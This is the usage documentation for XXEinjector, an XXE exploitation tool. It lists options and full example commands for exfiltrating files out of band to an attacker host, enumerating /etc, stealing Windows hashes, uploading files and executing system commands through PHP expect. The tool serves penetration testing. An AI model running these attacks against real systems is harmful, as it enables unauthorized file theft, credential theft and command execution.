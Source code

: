 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - File containing HTTP request. Entity in request file needs to point to file.dtd on XXEinjector HTTP<br /> server. Issue --xml to show sample HTTP request. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />

  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Bruteforcing files using HTTP out of band method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
